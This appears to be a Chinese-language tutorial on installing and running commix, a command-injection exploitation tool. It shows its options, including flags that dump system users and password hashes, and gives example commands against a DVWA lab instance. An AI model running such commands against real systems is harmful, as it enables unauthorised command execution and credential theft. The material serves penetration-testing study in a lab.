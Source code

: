 Command Injection
=
安装方法
-
在https://github.com/commixproject/commix/releases下下载commix压缩包，直接解压即可(由于新版v2.4出现了问题，v2.2经尝试可行)

使用说明
-
### 基本要素
commix.py –url=”” –data=”” –cookie=””
commix.py为打开我们的commix脚本，其次还需要输入对应的攻击网址url，data与cookie的相关数据
### 更多用法
    Options:
      -h, --help            Show help and exit.
    Target:
          -u URL, --url=URL     Target URL.
        Request:
          -d DATA, --data=..    Data string to be sent through POST.
          --host=HOST           HTTP Host header.
          --referer=REFERER     HTTP Referer header.
      --user-agent=AGENT    HTTP User-Agent header.
      --cookie=COOKIE       HTTP Cookie header.
      --cookie-del=CDEL     Set character for splitting cookie values.
        Enumeration:
          --all               Retrieve everything.
  --sys-info          Retrieve system information.
  --users             Retrieve system users.
  --passwords         Retrieve system users password hashes.
  --privileges        Retrieve system users privileges.
  --ps-version        Retrieve PowerShell's version number.
Detection:
  --level=LEVEL       Level of tests to perform (1-3, Default: 1).
更多用法请见https://github.com/commixproject/commix/wiki/Usage， https://tools.kali.org/exploitation-tools/commix

DVWA示例
root@kali:~/commix# python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=Submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
更多示例请见https://github.com/commixproject/commix/wiki/Usage-Examples， https://tools.kali.org/exploitation-tools/commix

- source: https://tools.kali.org/exploitation-tools/commix
```
root@speit-PowerEdge-T430:/home/speit/Downloads/commix-2.1-20171003# python commix.py --url http://192.168.5.100/vulnerabilities/exec/ --data="ip=INJECT_HERE&Submit=Submit" --cookie="security=low; PHPSESSID=upjio7inblkt07rte0eagcg045"
```
